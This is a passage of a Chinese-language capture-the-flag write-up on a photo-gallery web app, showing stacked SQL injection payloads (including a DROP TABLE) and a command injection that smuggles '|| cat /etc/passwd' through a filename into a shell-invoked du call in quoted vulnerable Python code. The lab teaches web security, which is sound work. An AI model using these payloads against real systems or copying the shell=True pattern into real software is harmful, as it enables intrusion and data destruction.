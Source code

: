 最后一句把输入的filename强行绑定在了当前目录，我开始的想法是看能不能通过某些字符串来绕过`str.replace()`，google了好久也没有结果。

然后我想能不能在select后面跟一个update语句，尝试构造payload

`;update photos set filename='files/adorable.jpg' where id=3;`

把id=3的filename改成id=1的filename，提交完之后刷新index页面，没有反应。

google了一会儿我发现了一个叫做[Stacked injection](http://www.sqlinjection.net/stacked-queries/)的攻击方式。原来我上面的payload之所以没有反应是因为update语句一般需要加上commit

在找第二个flag的时候其实我也是过类似的payload

`;drop table photos`,而且甚至导致服务器直接500了，但是当时也没多想。于是构造payload

`;update photos set filename='files/adorable.jpg' where id=3;commit;`

再访问index页面，果然第三个图片变成了第一个图片。

既然能改数据库数据，那我的修改肯定也能影响下面的index路由了

```python
@app.route('/')
def index():
	cur = getDb().cursor()
	cur.execute('SELECT id, title FROM albums')
	albums = list(cur.fetchall())

	rep = ''
	for id, title in albums:
		rep += '<h2>%s</h2>\n' % sanitize(title)
		rep += '<div>'
		cur.execute('SELECT id, title, filename FROM photos WHERE parent=%s LIMIT 3', (id, ))
		fns = []
		for pid, ptitle, pfn in cur.fetchall():
			rep += '<div><img src="fetch?id=%i" width="266" height="150"><br>%s</div>' % (pid, sanitize(ptitle))
			fns.append(pfn)
		rep += '<i>Space used: ' + subprocess.check_output('du -ch %s || exit 0' % ' '.join('files/' + fn for fn in fns), shell=True, stderr=subprocess.STDOUT).strip().rsplit('\n', 1)[-1] + '</i>'
		rep += '</div>\n'

	return home.replace('$ALBUMS$', rep)
```

代码里看起来是要du命令并返回结果，ubuntu里`du --help`看一下


```

-c, --total           produce a grand total
-h, --human-readable  print sizes in human readable format (e.g., 1K 234M 2G)
```

看来是打印三个文件的总大小然后返回输出结果的最后一行。fns是三个filename构成的列表，我只要把filename改造成我想要命令就能执行并返回了。

先构造fns，把id=3的filename改成`|| cat /etc/passwd`，页面里回显了，`/etc/passwd`的最后一行

![4-2.png](4-2.png)
